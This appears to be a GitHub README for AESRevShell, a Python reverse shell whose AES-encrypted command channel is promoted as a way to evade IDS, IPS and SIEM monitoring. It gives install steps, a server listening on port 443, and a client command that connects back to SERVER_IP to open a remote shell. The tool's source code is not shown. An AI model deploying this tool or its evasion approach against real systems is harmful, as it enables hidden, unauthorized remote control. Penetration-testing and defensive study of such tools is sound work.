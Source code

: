 # AESRevShell
AESRevShell is a secure reverse shell tool that utilizes AES encryption (CBC mode) to ensure encrypted communication between a client and a server. This project demonstrates a simple yet powerful way to establish a secure command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By encrypting the communication with AES, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a useful tool for penetration testing in environments with strict monitoring.

### Key features:
- **AES encryption (CBC mode)** for secure data transmission.
- **Client-server architecture** for reverse shell functionality.
- **Key and IV validation** to ensure both parties use the correct encryption parameters.
- **Command execution:** The server sends commands to the client, which are executed and returned securely.
- **Bypass of IDS/IPS/SIEM:** AES encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

This project is intended for educational purposes and to demonstrate how AES encryption can be used in real-time communication for security testing and penetration testing scenarios.

## Demos
![image](https://github.com/user-attachments/assets/fa632162-df75-4409-9db0-ddffb113dbb4)
![image](https://github.com/user-attachments/assets/afabc598-1cd5-4205-89aa-f32b6a2a5361)

## Installation
- `sudo apt update && sudo apt install -y python3-pip`
- `python3 -m pip install --upgrade cryptography`
- `git clone https://github.com/OusCyb3rH4ck/AESRevShell`
- `cd AESRevShell`
- `chmod +x client.py server.py`

## Usage (for server)
- `./server.py -i 0.0.0.0 -p 443` ***(put any IP and Port you want)***

## Usage (for client)
- `./client -s SERVER_IP -p PORT -k AES_KEY -v AES_IV` ***(all proportioned by the server)***
